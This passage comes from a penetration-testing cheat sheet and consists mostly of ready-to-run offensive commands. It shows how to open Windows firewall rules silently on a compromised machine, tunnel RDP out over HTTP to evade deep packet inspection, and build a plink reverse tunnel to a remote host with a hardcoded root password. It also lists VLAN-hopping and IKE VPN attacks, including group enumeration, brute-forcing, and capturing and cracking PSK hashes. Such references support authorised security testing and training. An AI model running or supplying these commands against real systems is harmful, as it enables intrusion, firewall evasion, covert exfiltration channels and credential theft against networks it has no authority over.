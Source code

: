         `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P80`
- Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel
    (bypass deep packet inspection)

  - Windows machine add required firewall rules without prompting the user
    - `netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes`
    - `netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000`
    - `netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080`
    - `netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079`
  - Start the http tunnel client  
         `httptunnel_client.exe`
  - Create HTTP reverse shell by connecting to localhost port 3000  
        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P 3000`
- VLAN Hopping
      ```shell
      git clone https://github.com/nccgroup/vlan-hopping.git
      chmod 700 frogger.sh
      ./frogger.sh
      ```
- VPN Hacking
  - Identify VPN servers:  
        `./udp-protocol-scanner.pl -p ike $ip`
  - Scan a range for VPN servers:  
        `./udp-protocol-scanner.pl -p ike -f ip.txt`
  - Use IKEForce to enumerate or dictionary attack VPN servers:  
    - `pip install pyip`  
    - `git clone https://github.com/SpiderLabs/ikeforce.git`
        Perform IKE VPN enumeration with IKEForce:  
        `./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic`
        Bruteforce IKE VPN using IKEForce:  
        `./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1`
        Use ike-scan to capture the PSK hash:

        ```shell
        ike-scan  
        ike-scan TARGET-IP  
        ike-scan -A TARGET-IP  
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key  
        ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP
        ```

        Use psk-crack to crack the PSK hash

        ```shell
        psk-crack hash-file.txt  
        pskcrack  
        psk-crack -b 5 TARGET-IPkey  
        psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key  
        psk-crack -d /path/to/dictionary-file TARGET-IP-key
        ```
